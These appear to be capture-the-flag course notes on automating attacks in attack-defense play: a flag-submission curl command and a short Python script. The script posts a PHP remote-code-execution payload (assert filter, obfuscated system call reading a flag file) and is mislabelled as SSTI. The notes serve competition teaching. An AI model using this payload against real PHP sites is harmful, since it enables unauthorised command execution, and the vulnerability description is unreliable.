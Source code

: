 ## Flag Submitter

```
curl -X POST http://www.compass.college/api/flag -H "Authorization: <token>" -d "{ \"flag\": \"your_flag_here\" }"
```

GitHub repo of an example flag submitter:

[https://github.com/0xaww/awd-submit-flag](https://github.com/0xaww/awd-submit-flag)

![img](file/Week 14-5.png)

## Exploit Script

Using manual exploit is not efficient. By using automate script to exploit and submit the flag.

An example exploit script of a SSTI vulnerability looks like:

```python
import requests
url = ""
data = {
    "method": "__construct",
    "filter[]": "assert",
    "method": "get",
    "get[]": "die((new ReflectionFunction('syste'.'m'))->invoke('cat /var/flag.txt'))",
}
print(requests.post(url, data=data).text)
```

The script can be configured to run every 5 minutes or using flag submitter to hook the exploit script.
